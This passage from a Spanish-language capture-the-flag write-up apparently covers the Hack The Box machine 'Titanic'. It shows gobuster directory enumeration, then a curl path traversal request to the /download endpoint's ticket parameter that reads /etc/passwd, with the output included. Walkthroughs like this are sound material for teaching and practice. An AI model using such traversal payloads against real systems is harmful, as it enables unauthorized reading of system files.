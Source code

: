![Captura JSON descargado](../capturas/titanic/captura_json.png)

No parece ser de más utilidad el archivo JSON, por lo que podemos probar a buscar subdirectorios con *gobuster* como alternativa. 
```
> gobuster dir -u http://titanic.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t100
```
De donde obtenemos:
```
/download             (Status: 400) [Size: 41]
/book                 (Status: 405) [Size: 153]
/server-status        (Status: 403) [Size: 276]
```
Si introducimos el subdominio /download, nos aparece un error indicando que falta el parámetro ticket en la ruta.

![Captura ticket parameter](../capturas/titanic/captura_ticket.png)

Este mensaje de error nos da una pista de que el endpoint */download* espera un parámetro *ticket*, por lo que podemos intentar realizar fuzzing sobre la URL. Escribimos la siguiente ruta para comprobar si el servidor es vulnerable a un Path Traversal.
```
> curl http://titanic.htb/download?ticket=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```